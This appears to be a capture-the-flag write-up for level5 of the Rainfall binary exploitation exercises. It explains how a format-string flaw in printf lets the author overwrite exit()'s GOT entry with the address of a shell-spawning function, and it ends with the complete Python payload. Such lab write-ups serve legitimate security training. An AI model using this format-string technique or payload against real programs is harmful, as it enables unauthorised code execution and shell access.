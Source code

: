 # level5

Ok so we see a couple of functions that could be interesting here `n()` and `o()`   

![image](https://github.com/chmadran/rainfall_42/assets/113340699/33523a1c-a298-4da3-9546-6044d101cbd7)

We see `main()` calls `n()` but not `o()`,     

![image](https://github.com/chmadran/rainfall_42/assets/113340699/9ac672b3-86bb-4c8e-96b5-333e8057e509)

let's see what's in `o()`.. interesting there's a system call opening a shell, perfect we know we have to launch `o()`

![image](https://github.com/chmadran/rainfall_42/assets/113340699/0907e9b8-6306-43e6-b04c-ed810f930afb)

We notice a vulnerability in `n()` through `printf()` not sanitizing user input, we'll be calling `o()` there right after its print, instead of `exit()` 

![image](https://github.com/chmadran/rainfall_42/assets/113340699/b55bdb7b-aab4-472e-878b-481cf14575de)

Now, crafting the payload...

- The argument position is 4th    

![image](https://github.com/chmadran/rainfall_42/assets/113340699/04e1a1b9-ce77-4b71-a32f-19fd553cc8a0)

- The address of `o()` : `0x80484a4` = `134513828` in decimal 

- The address of `exit()` : `0x8049838`   

![image](https://github.com/chmadran/rainfall_42/assets/113340699/5420a6c2-7bbd-431c-8f98-e048f88cbf48)

SO payload syntax will be `[address to be replaced] + %[replacement address in decimal - 4 bytes already written]d + %[argument position]$n`

THEREFORE `python -c 'print("\x38\x98\x04\x08" + "%134513824d" + "%4$n")'`

[This](https://www.youtube.com/watch?v=t1LH9D5cuK4) is a good source to understand how to write the script.
